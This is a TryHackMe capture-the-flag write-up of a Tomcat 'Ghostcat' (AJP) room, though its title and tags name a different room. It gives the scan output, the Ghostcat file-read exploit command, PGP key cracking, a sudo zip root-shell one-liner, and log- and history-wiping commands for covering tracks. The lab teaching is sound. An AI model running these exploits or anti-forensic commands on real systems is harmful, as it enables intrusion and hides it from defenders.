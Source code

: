 ```yaml
---
title: "THM:wgetctf"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/wgetctf"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,gpg2john,linpeas,privesc,cron
---
```

# THM:wgetctf

URL: [https://tryhackme.com/room/wgetctf](https://tryhackme.com/room/wgetctf) [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: "," %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> Can you exfiltrate the root flag?

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found on `:8080`:

```python
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Interesting folders found on `:8009`:

This one is odd. In a browser, it says:

```
This page isn’t working
10.10.58.18 didn’t send any data.
ERR_EMPTY_RESPONSE
```

Which seems like there is a web server there, but it just didn't respond with anything. However, over `http` and `https`, `gobuster` couldn't connect to the web server:

```python
Error: error on running gobuster: unable to connect to http://10.10.58.18:8009/: Get "http://10.10.58.18:8009/": EOF
```

Also see: [gobuster-8080.log](gobuster-8080.log) / [gobuster-8009.log](gobuster-8009.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x -p 8080`

Not much of anything interesting info found on `:8080`:

```python
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/manager-howto.html: Tomcat documentation found. See: CWE-552
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/status: Default Tomcat Server Status interface found.
+ /host-manager/status: Default Tomcat Server Status interface found.
+ 8074 requests: 0 error(s) and 13 item(s) reported on remote host
```

Interesting info found on `:8009`:

Similar situation with `gobuster`, Nikto couldn't connect.

```python
- Nikto v2.5.0
---------------------------------------------------------------------------
---------------------------------------------------------------------------
+ 0 host(s) tested
```

Also see: [nikto-8080.log](nikto-8080.log) / [nikto-8009.log](nikto-8009.log)

## Gaining Access

I consulted [this writeup](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23) which explains that "Ghostcat" (the name of the room) is the name of a vulnerability in Apache Jserv Protocol (AJP) that is running on port 8009.

### Unprivileged Access

By using the `ajpShooter.py` exploit from [here](https://github.com/00theway/Ghostcat-CNVD-2020-10487), we can run a command line like this:

```bash
python3 ajpShooter.py http://10.10.58.18:8080/demo 8009 /WEB-INF/web.xml read
```

That then shows you a plausible username:password combination. When you try that combination over SSH, you can get in with unprivileged access.

> ***Note:** Looking around there is a `merlin` folder until `/home/` with a readable folder structure. Not writable though. Also note that not much came up in linpeas either.*


## Privilege Escalation

This is somewhat tedious to put together. The kill-chain is:

1. **Download** the `credential.pgp` and `tryhackme.asc` to your local workstation (ex: run `python3 -m http.server` on the target, to serve those files; retrieve them with a browser)
1. **Convert** The `tryhackme.asc` file is a PGP private key. Run `gpg2john ./tryhackme.asc > ./tryhackme.asc.hash` to get it into John the Ripper format.
1. **Run John the Ripper** with the RockYou wordlist to crack the password for that private key (ex: run `john --wordlist=/opt/share/wordlist/rockyou.txt ./tryhackme.asc.hash`)
1. **Import that password into PGP** with: `gpg --import ./tryhackme.asc` - it will prompt you for a password.
1. **Decrypt the `credential.pgp` file** with `gpg --decrypt ./credential.pgp` - ir will prompt you for that same password you got from John the Ripper.
1. **SSH as `merlin`** Next, that credential that you just decrypted, is for `merlin`. So, SSH in now as `merlin`.
1. **Check `sudo`** As `merlin`, if we run `sudo -l` to see what we can do as sudo, we see that we can run `/usr/bin/zip`. This is notable because the `zip` program allows you to pass it a `--unzip-command "<command to run>"`. So, if we're running as `root` via `sudo` at that time, and if the `--unzip-command` opens a shell, we should get a root shell.

Putting that all together, we can finally run something like this, logged in as `merlin`:

```bash
sudo zip archive ./user.txt -T --unzip-command="sh -c /bin/bash"
```

We are now running as root and can get our final flag from the `/root/` folder.


## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/merlin/.bash_history`
>  
> `cat /dev/null > /home/skyfrick/.bash_history`

## Summary

Completed: [2023-07-22 21:25:01]